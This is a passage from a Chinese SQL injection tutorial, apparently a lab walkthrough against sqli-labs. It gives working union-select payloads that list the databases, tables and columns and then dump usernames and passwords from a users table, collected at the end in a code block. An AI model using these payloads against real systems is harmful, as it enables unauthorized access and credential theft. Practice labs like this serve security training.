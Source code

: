 发现者里有2和3的回显位,在name和Password回显



**第四步**，爆库，爆表，爆字段名，爆值

为什么用-1 ：因为-1大概率会返回空表，union select联合查询会返回一张表，就只会显示后面联合查询表

组合使用上面提到的常用的payload，放在页面回显位上

`-1' union select 1,(select database()),3 --+`

![image-20221122160735322](https://static.sechelper.com/img/2023/01/19/1c659169b7b337f79bcc27ccae71facc.png)

`-1' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema=database()),3 --+`

![image-20221122160835475](https://static.sechelper.com/img/2023/01/19/454173750e095714af6d3f0d97e76bf8.png)

爆出4个表，选择爆users表

`-1' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='users'),3 --+`

![image-20221122161319576](https://static.sechelper.com/img/2023/01/19/6eac18f2cab4f638652ec536cb5398b8.png)

发现查询出了很多字段应该爆错了不是我们需要的那个表，可能其他库里也有users表，这样要加一条限制语句，查security库里的users表

`-1' union select 1,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),3 --+`

![image-20221122161750737](https://static.sechelper.com/img/2023/01/19/18c1696be03eaf0446ad95c15a161933.png)

爆字段的数据

`-1' union select 1,(select group_concat(id,username,password) from users),3 --+`

![image-20221122161942467](https://static.sechelper.com/img/2023/01/19/181a4b3cf49119b536084c0db16eaed7.png)

```sql
-1' union select 1,(select database()),3 --+
-1' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema=database()),3 --+
-1' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='users'),3 --+
-1' union select 1,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),3 --+
-1' union select 1,(select group_concat(id,username,password) from users),3 --+
```
